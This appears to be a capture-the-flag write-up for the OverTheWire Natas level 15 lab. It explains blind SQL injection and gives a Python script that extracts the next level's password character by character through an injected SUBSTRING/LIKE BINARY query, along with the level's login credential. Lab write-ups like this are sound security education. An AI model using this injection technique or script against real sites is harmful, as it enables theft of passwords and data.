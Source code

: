There is a particular type of SQL injection for these conditions:
**blind-based SQL injection**. We test different conditions, and see whether
we get a success or fail return from our query. In this example, we test the
first character of natas16's password, with a query like this (the part in
curly braces is our injection, and 'X' as our character):

```
SELECT * from users where username="{natas16" AND SUBSTRING(password,1,1)
LIKE BINARY "X}"
```

If 'X' is the first letter of the password, the query will return successful,
and we receive the 'This user exists' response (our **TRUE** return). If 'X' is
not the first letter of the password however, the query will return an error,
and we receive the 'Error in query' response (our **FALSE** return).

To automate this process, as it would take hours to complete it manually, we
can use the Requests library for python for our attempts, in natas15.py:

```
import re
import requests as req
from requests.auth import HTTPBasicAuth

i = 1
LOGIN = 'http://natas15.natas.labs.overthewire.org'
chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
passwd = ''

for i in range(1,33):
    for char in chars:
        payload = {'username':'natas16"' + 
                'AND SUBSTRING(password,1,' + str(i) + ')' +
                ' LIKE BINARY"' + passwd + char} 
        r = req.post(LOGIN, auth=HTTPBasicAuth('natas15',
            'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data=payload)
        if (re.search('This user exists',r.text)):
            passwd += char
            print (passwd)
            i += 1
			break
```

The code will access the natas15 page with our injection input (payload). The
query will check the first 'i' characters of the password, until all 32
characters have been deduced. After testing the query, the `if` statement
will check to see if the query returned **TRUE**, and if so, our password
will be extended by the new character and we'll move on to querying the next.

If we run:

```
python natas15.py > natas15.out
```

Then we can see the output from our code, the first successful query for each
character of the password, until the eventual solution is found.
